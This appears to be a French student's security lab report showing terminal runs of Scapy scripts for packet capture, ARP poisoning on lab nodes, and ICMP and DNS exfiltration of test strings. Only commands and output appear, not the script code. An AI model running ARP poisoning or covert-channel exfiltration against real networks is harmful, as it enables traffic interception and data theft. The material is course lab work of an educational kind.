 # TP4 SECU : Exfiltration

# Sommaire

- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)


# I. Getting started Scapy

🌞 **`ping.py`**

> le `ping` est bloqué vers la passerelle.

```bash
stan@Stanislass-MacBook-Pro-2 tp4-secu-2024 % python3 ping.py
Begin emission

Finished sending 1 packets
...*
Received 4 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=c8:5e:a9:3e:3e:fb src=f2:39:c5:c0:07:e5 type=IPv4 |<IP  frag=0 proto=icmp src=10.33.67.174 dst=10.33.73.226 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=f2:39:c5:c0:07:e5 src=c8:5e:a9:3e:3e:fb type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=47053 flags= frag=0 ttl=64 proto=icmp chksum=0x2142 src=10.33.73.226 dst=10.33.67.174 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 unused=b'' |>>>)
```

🌞 **`tcp_cap.py`**

```bash
stan@Stanislass-MacBook-Pro-2 tp4-secu-2024 % python3 tcp_cap.py 
TCP SYN ACK reçu !
- Adresse IP src : 34.120.22.49
- Adresse IP dest : 10.33.67.174
- Port TCP src : 443
- Port TCP dst : 59881
```

🌞 **`dns_cap.py`**

```bash
stan@Stanislass-MacBook-Pro-2 tp4-secu-2024 % python3 dns_cap.py
DNS Ans : 104.26.10.233
WARNING: Socket <scapy.arch.bpf.supersocket.L2bpfListenSocket object at 0x107a501d0> failed with 'Layer [1] not found'. It was closed.
```

🌞 **`dns_lookup.py`**

```bash
stan@Stanislass-MacBook-Pro-2 tp4-secu-2024 % python3 dns_loockup.py 
DNS Ans 172.67.74.226
```

# II. ARP Poisoning


🌞 **`arp_poisoning.py`**

```bash
[et0@node1 ~]$ ip n s
10.1.1.1 dev enp0s1 lladdr be:d0:74:85:a8:65 REACHABLE 
10.1.1.254 dev enp0s1 lladdr 8e:a6:dc:e1:6a:b0 REACHABLE
```
```bash
[et0@node2 tp4-secu-2024]$ sudo python3 arp_poisoning.py
```
```bash
[et0@node1 ~]$ ip n s
10.1.1.12 dev enp0s1 lladdr 72:e9:3c:7d:a9:96 STALE 
10.1.1.1 dev enp0s1 lladdr be:d0:74:85:a8:65 REACHABLE 
10.1.1.254 dev enp0s1 lladdr de:ad:be:ef:ca:fe REACHABLE 
```

# II. Exfiltration ICMP

➜ **Ici, on va se servir de notre ami le ping pour exfiltrer des données.**

🌞 **`icmp_exf_send.py`**

```bash
stan@Stanislass-MacBook-Pro-2 tp4-secu-2024 % python3 icmp_exf_send.py 10.1.1.11 f
WARNING: No broadcast address found for iface bridge100
```

🌞 **`icmp_exf_receive.py`**

```bash
[et0@localhost ~]$ python3 icmp_exf_receive.py 
ERROR: Cannot set filter: libpcap is not available. Cannot compile filter !
f
```

# III. Exfiltration DNS

**DNS est donc un protocole qu'on peut aussi détourner de son utilisation première pour faire de l'exfiltration.**

🌞 **`dns_exfiltration_send.py`**

```bash
stan@Stanislass-MacBook-Pro-2 tp4-secu-2024 % python3 dns_exfiltration_send.py 10.1.1.11 toto
WARNING: No broadcast address found for iface bridge100
```